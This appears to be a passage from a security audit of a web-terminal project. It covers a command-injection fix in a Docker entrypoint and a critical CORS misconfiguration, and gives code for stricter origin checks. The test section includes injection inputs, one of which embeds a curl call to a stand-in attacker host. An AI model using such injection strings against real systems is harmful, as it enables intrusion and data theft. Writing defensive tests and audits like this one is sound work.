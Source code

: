 ```bash
/bin/bash -c "${INSTALL_CMD}"

echo "[entrypoint] launching ttyd..."
export CLAUDE_PROMPT="${CLAUDE_PROMPT}"
# Use -- to separate ttyd options from command
exec ttyd -p 7681 -W -- /bin/bash -c "${COMMAND}"
```

**Testing:**
```bash
# Test with malicious inputs:
COMMAND='npm start; $(curl evil.com/steal)' ./entrypoint.sh  # Should fail
COMMAND='npm start `whoami`' ./entrypoint.sh  # Should fail
COMMAND='npm start && node dist/index.js' ./entrypoint.sh  # Should work
```

---

### Issue #2: CORS Misconfiguration - Any Origin Allowed
**Severity:** CRITICAL
**File:** `controller/src/server.ts:14`
**Current Code:**
```typescript
app.use(cors({ origin: true }));
```

**Problem:**
- Allows ANY website to make authenticated requests
- Perfect vector for CSRF attacks and token theft
- Malicious sites can call `/api/sessions` with stolen Firebase tokens

**Fix:**
1. Create environment variable for allowed origins
2. Use strict origin validation
3. Enable credentials only for allowed origins

**Implementation:**
```typescript
// controller/src/server.ts (line 14)

const allowedOrigins = process.env.ALLOWED_ORIGINS
  ? process.env.ALLOWED_ORIGINS.split(',').map(o => o.trim())
  : ['https://yourdomain.com', 'https://app.yourdomain.com'];

app.use(cors({
  origin: (origin, callback) => {
    // Allow requests with no origin (like mobile apps or curl)
    if (!origin) return callback(null, true);

    if (allowedOrigins.includes(origin)) {
      callback(null, true);
    } else {
      log.warn({ origin }, 'CORS request from unauthorized origin');
      callback(new Error('Not allowed by CORS'));
    }
  },
  credentials: true,
  maxAge: 86400 // 24 hours
}));
```
